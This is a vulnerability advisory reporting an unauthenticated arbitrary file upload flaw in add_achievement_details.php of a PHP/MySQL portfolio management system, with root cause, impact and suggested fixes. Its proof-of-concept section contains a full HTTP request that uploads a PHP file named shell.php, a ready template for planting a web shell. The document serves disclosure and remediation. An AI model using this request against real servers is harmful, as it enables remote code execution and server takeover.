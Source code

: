 # 1000projects Portfolio Management System MCA Project using PHP and MySQL V1.0 /add_achievement_details.php unrestricted file upload

## NAME OF AFFECTED PRODUCT(S)

- ` Portfolio Management System MCA Project using PHP and MySQL`

## Vendor Homepage

- https://1000projects.org/portfolio-management-system-mca-project-using-php-and-mysql.html

## Software Link

- https://1000projects.org/wp-content/uploads/2022/11/Portfolio-MP.7z

## Vendor

- `1000projects`

## Vulnerability Type

- `Unrestricted Upload`

## Root Cause

- An arbitrary file upload vulnerability was found in the /add_achievement_details.php file of the "Portfolio Management System MCA Project using PHP and MySQL" project.  This vulnerability can be exploited without requiring any special permissions.

  <img src="./image/3.jpg" style="zoom:150%;" />

## Impact

- Attackers can use this arbitrary file upload vulnerability to control servers and remote command execution, which poses a serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Portfolio Management System MCA Project using PHP and MySQL", wangjiawei  discovered a critical arbitrary file upload vulnerability in the "/add_achievement_details.php" file.    This vulnerability can be exploited without requiring any special permissions. Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

### poc
```
POST /add_achievement_details.php HTTP/1.1
Host: 192.168.75.230:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------81659350143997101828602662
Content-Length: 698
Origin: http://192.168.75.230:8080
Sec-GPC: 1
Connection: close
Referer: http://192.168.75.230:8080/achievement_details.php
Cookie: PHPSESSID=2vlp63ah40dpfu1essnne5at9c
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------81659350143997101828602662
Content-Disposition: form-data; name="ach_name"

1
-----------------------------81659350143997101828602662
Content-Disposition: form-data; name="ach_rank"

1
-----------------------------81659350143997101828602662
Content-Disposition: form-data; name="ach_year"

1
-----------------------------81659350143997101828602662
Content-Disposition: form-data; name="ach_certy"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------81659350143997101828602662
Content-Disposition: form-data; name="submit"

Next ->
-----------------------------81659350143997101828602662--

```

<img src="./image/4.jpg" style="zoom:150%;" />

<img src="./image/5.jpg" style="zoom:150%;" />

## Suggested fixes

1. The storage location of the uploaded file is separate from the server.
2. Modify the file name and file suffix of the uploaded file. (How to determine the suffix name to prevent modification: front-end pass, back-end re-check)
3. The file upload path is separated based on the service. Download according to the generated file name.
